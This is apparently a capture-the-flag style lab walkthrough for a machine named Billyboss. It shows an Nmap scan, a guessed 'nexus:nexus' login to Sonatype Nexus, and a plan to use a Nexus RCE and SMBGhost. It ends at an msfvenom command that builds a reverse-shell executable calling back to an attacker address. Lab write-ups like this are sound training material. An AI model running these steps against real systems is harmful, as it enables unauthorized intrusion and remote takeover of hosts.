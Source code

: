 
# Exploitation Guide for Billyboss

## Summary

We'll gain a foothold on this machine with some basic password guessing. We'll then exploit a remote code execution vulnerability in the Sonatype Nexus application installed on this machine. Finally, we'll exploit the SMBGhost vulnerability to escalate our privileges.

## Enumeration

### Nmap

We'll start off with a simple Nmap scan.

```
kali@kali:~$ sudo nmap 192.168.140.61
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-05 01:33 EST
Nmap scan report for 192.168.140.61
Host is up (0.30s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
8081/tcp open  blackice-icecap

Nmap done: 1 IP address (1 host up) scanned in 32.57 seconds
```

### Sonatype Nexus

Browsing to the website on port 8081, we find an installation of Sonatype Nexus. A quick online search reveals that there are no default credentials we can exploit. However, after a few educated guesses, we log in as `nexus:nexus`.

According to the information in the top-left corner, the target is running Sonatype Nexus version 3.21.0-05.

## Exploitation

### Sonatype Nexus Authenticated Code Execution

An EDB search reveals that version 3.21.0-05 of Sonatype Nexus is vulnerable to a [remote code execution exploit](https://www.exploit-db.com/exploits/49385). To run the exploit, we'll first generate an MSFVenom reverse shell payload.

```
kali@kali:~$ msfvenom -p windows/x64/shell_reverse_tcp -f exe -o shell.exe LHOST=192.168.118.3 LPORT=8081
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe
```
